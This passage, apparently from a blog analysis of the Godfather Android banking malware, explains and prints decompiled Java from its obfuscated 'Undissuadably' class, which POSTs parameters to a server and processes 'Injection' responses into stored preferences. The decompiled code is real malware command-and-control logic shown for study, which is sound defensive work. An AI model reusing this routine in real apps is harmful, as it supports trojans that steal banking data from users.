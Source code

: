 #### Undissuadably


![Figure 15 - Undissuadably Class]({{ '/assets//images/2024-12-09-godfather-android-analysis/img15.png' | relative_url }})) 


It Initializes an OkHttpClient  object with different timeouts, constructs a FormBody using the parameters provided in the HashMap. Creates and sends HTTP POST request with the parameters.
If the response is valid and contains the string “Injection”,it  processes the response further, splits the result and invokes several functions, some of which appears to store values in SharedPreferences. Then it stores the result in the “obtainal” key.

```java

public static String undissuadably(final Context context, String url, HashMap<String, String> params) {
    try {
        fiddlebow = new OkHttpClient();
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        fiddlebow = builder
            .connectTimeout(50L, timeUnit)
            .writeTimeout(50L, timeUnit)
            .readTimeout(50L, timeUnit)
            .callTimeout(50L, timeUnit)
            .build();
        
        final FormBody.Builder builder2 = new FormBody.Builder();
        nonstylized = builder2;
        Objects.requireNonNull(builder2);
        
        params.forEach(new BiConsumer<String, String>() {
            @Override
            public void accept(String key, String value) {
                builder2.add(key, value);
            }
        });
        
        spekboom = nonstylized.build();
        
        Request build = new Request.Builder()
            .addHeader("Content-Type", "text/plain; charset=utf-8")
            .addHeader("Connection", "close")
            .url(url)
            .post(spekboom)
            .build();
        
        Custer = build;
        
        fiddlebow.newCall(build).enqueue(new Callback() {
            @Override
            public void onFailure(Call call, IOException e) {
            }
 
            @Override
            public void onResponse(Call call, Response response) throws IOException {
                String effluvias = "cn";
                if (response.isSuccessful()) {
                    try {
                        String res = response.body().string();
                        veepees.obtainal = res;
                        try {
                            if (!res.isEmpty()) {
                                veepees.obtainal = Tamarix.Uriiah(res);
                            }
```